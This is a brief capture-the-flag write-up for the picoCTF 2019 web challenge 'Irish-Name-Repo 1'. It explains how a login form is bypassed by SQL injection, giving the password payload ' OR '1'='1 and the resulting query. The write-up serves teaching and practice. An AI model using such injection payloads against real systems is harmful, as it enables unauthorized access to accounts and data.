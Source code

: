 # 📝 Irish-Name-Repo 1

- **Author:** Chris Hensler  
- **Category:** Web Exploitation  
- **Difficulty:** Medium  
- **Tags:** picoCTF 2019  
---

## 🕵️‍♂️ Summary

A login page with minimal interaction hints at server-side user validation. A support post referencing a *"SQL Error"* reveals a potential SQL injection vulnerability.

---

## 💥 Exploit

By injecting into the login form:

- **Username:** `admin`  
- **Password:** `' OR '1'='1`

The backend SQL becomes:
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR '1'='1';
```

This bypasses authentication and logs us in as admin.
